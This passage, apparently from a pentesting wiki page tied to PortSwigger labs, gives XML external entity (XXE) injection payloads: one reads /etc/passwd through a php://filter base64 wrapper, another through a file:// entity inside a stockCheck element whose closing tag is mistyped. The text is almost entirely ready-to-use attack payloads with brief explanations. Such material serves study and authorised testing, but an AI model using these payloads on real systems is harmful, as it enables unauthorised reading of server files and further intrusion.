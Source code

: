 ![](../.gitbook/assets/image%20%28264%29.png)

This second case should be useful to extract a file if the web server is using PHP \(Not the case of Portswiggers labs\)

```markup
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

In this third case notice we are declaring the `Element stockCheck` as ANY

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&file;</productId>
    <storeId>1</storeId>
</stockCheck3>
```
